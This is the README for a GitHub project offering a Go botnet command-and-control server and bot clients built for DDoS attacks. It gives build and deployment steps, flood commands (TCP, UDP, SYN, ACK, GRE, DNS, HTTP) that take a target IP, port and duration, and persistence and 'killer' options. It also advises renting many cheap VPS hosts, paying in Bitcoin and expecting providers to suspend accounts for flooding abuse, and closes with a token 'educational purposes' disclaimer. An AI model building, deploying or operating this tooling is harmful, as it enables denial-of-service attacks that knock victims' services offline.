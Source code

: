 # Golang Botnet focused on basic network stressing 

2024-09-20

## Overview
This project implements a simple Botnet Control and Command (CnC) server in Go, enabling users to manage connected bots and execute various network attack commands.

## Features
- **User Authentication**: Secure login and credential management.
- **Bot Management**: Connect and manage multiple bots.
- **Attack Execution**: Send commands to bots for executing different types of network attacks.
- **Logging**: Track bot connections and actions.

## Prerequisites
- Go 1.18 or higher
- Terminal/command line interface
- Basic understanding of Go and network programming

![image1](https://github.com/user-attachments/assets/812f9717-c037-4399-ba57-e9bf4f610326)


## Installation
1. **Clone the repository**:
   ```bash
   git clone https://github.com/Birdo1221/BotnetGo.git
   cd BotnetGo/cnc
   ```
2. **Install dependencies**:
   ```bash
   go mod init cnc
   go mod tidy
   ```
3. **Build the project**:
   ```bash
   go build -o cnc *.go
   ```
4. **Run the server**:
   If the any of the ports are defined below 1024,
   you will need to run with sudo privilages to bind to that port.
   I would also recommend running using ```screen``` to run with it so it
   doesnt get killed for idle memory usage or kill the process after you close the program
    ```bash
   ./cnc
    
   sudo apt install screen 
   screen ./cnc 
   ```
   
6. **Running the Device / Bot files**:
   You bascially want to enter into the ```bash Devices``` Directory
   and do the exact same you did in the CNC directory
   ```bash
   cd ../device
   ```
   Then to build just run the build.sh script to make all the different arch types,
   but if you just want to build it for standard x86 or just without defining anything just run

    ```bash
    sh build.sh
   ```
    For without defining
    ```bash
     go build -o Botfile bot.go
   ```

## Configuration
Edit the constants in `main.go` to configure:
- **User and Bot Server IPs**: Adjust `USER_SERVER_IP` and `BOT_SERVER_IP`.
- **Server Ports**: Modify `USER_SERVER_PORT` and `BOT_SERVER_PORT`.
- **Killer**: Modify `killerEnabled` to `true` if you want to run on runtime and not when commanded to.

## Usage
- Start the server and connect your bots.
- Use the CLI to log in and execute commands.
  ### e.g. Termum, Mobaxterm or Putty
- Attacks command to start an attack:
  ```bash
  !tcpflood <target_ip> <target_port> <duration>
  !udpflood <target_ip> <target_port> <duration>
  !udpsmart <target_ip> <target_port> <duration>
  !syn <target_ip> <target_port> <duration>
  !ack <target_ip> <target_port> <duration>
  !gre <target_ip> <duration> // you will need to send a port anyway
  !dns <target_ip> <target_port> <duration>
  !http <target_ip> <target_port> <duration> // still in the works
  ```
- Alternative command to send:
  ```bash
  !kill
  !lock
  !persist
  ```


  ## Logging in 
1. **How to Login**:
   On Line 290 there is a string that is prompted to be called for before being able to login to it
   e.g. loginforme


2. **Users **:

   After that, you will be prompted to enter a username and password.
   If you don't remember them, you can check the users.json file,
   which contains the login information and more.  

4.  **Future Development/ Power problem **:
 ```
   When searching for a reliable source, one of the most significant concerns is the power it can deliver.
   Many users face challenges when a single source does not meet their expectations,
   they often switch to a differnt source or just abandon their search altogether.

   This source is designed to provide the expected performance. To start fully utilizing this source you
   will need around 10 to 16 servers, each equipped with 1 core and 1 GB 
   of RAM, and an output capacity of 1 Gbps, you can achieve approximately 30 to 40 Gbps for UDP traffic.

   I'd recommend using rental hosts for this purpose, as it allows you to create multiple server instances without
   having to pay an entire upfront cost of buying several servers. On average, with a Command and Control (CNC) server
   to test this would cost around 20 GBP (British Pounds) in Bitcoin.

   You can obtain affordable servers by using a rental VPS service or a budget host.
   However, be aware that VPS providers like OVH, Vultr, or Linode may terminate or suspend
   your VPS due to bandwidth or flooding abuse.
  ```
Performance may vary based on several factors, including:
 ```bash
   *.Packet size
   *.Server output
   *.RTT based on geolocation
   ```
For TCP methods, similar performance can be expected for each methods, typically ranging from 20 to 28 Gbps, though this is also influenced by various conditions.
   
## Disclaimer

#  ```This project is for educational purposes only. Ensure you have permission before testing any network security tools on remote servers. I bear no responsibility or obligation to anyone using this for malicious purposes. ```

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
